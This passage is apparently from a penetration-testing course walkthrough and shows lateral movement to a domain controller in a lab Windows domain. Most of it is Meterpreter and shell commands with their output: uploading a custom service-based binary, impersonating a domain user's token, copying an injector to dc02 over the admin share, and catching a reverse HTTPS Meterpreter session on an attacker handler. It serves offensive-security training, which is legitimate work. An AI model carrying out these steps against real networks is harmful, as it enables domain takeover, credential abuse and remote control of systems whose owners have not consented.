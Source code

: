 For purposes of demonstration in this small environment, we are going to opt for the latter approach and reuse the attack through the service manager to obtain a reverse shell from dc02.

Before we impersonate the token, we'll update the lateral movement code to change the target to dc02. We call it lat2.exe and upload it to file01.

```
meterpreter > upload /home/kali/lat2.exe c:\\lat2.exe
[*] uploading  : /home/kali/lat2.exe -> c:\lat2.exe
[*] Uploaded 5.50 KiB of 5.50 KiB (100.0%): /home/kali/lat2.exe -> c:\lat2.exe
[*] uploaded   : /home/kali/lat2.exe -> c:\lat2.exe

meterpreter > background
[*] Backgrounding session 3...

msf5 exploit(multi/handler) > exploit -j
[*] Exploit running as background job 2.
[*] Exploit completed, but no session was created.

[*] Started HTTPS reverse handler on https://192.168.119.120:443

msf5 exploit(multi/handler) > sessions -i 3
[*] Starting interaction with 3...

meterpreter > impersonate_token EVIL\\paul
[+] Delegation token available
[+] Successfully impersonated user EVIL\paul
```

> Listing 53 - Simple reverse shell from dc02

In addition, we'll need to background the current Meterpreter session, start a listener as a job, then interact with the Meterpreter session and impersonate _paul_.

To begin, we'll copy Inject.exe from file01 to dc02 and run lat2.exe as shown in Listing 53.

```
meterpreter > shell
Process 772 created.
Channel 2 created.
Microsoft Windows [Version 10.0.17763.1282]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32> copy c:\inject.exe \\dc02\c$
copy c:\inject.exe \\dc02\c$
        1 file(s) copied.

C:\Windows\system32> c:\lat2.exe
c:\lat2.exe
Error in calling StartService: 1053
Error in calling StartService: 1053

C:\Windows\system32>
[*] https://192.168.119.120:443 handling request from 192.168.120.130; (UUID: kag4tbwv) Staging x64 payload (207502 bytes) ...
[*] Meterpreter session 4 opened (192.168.119.120:443 -> 192.168.120.130:53758)
```
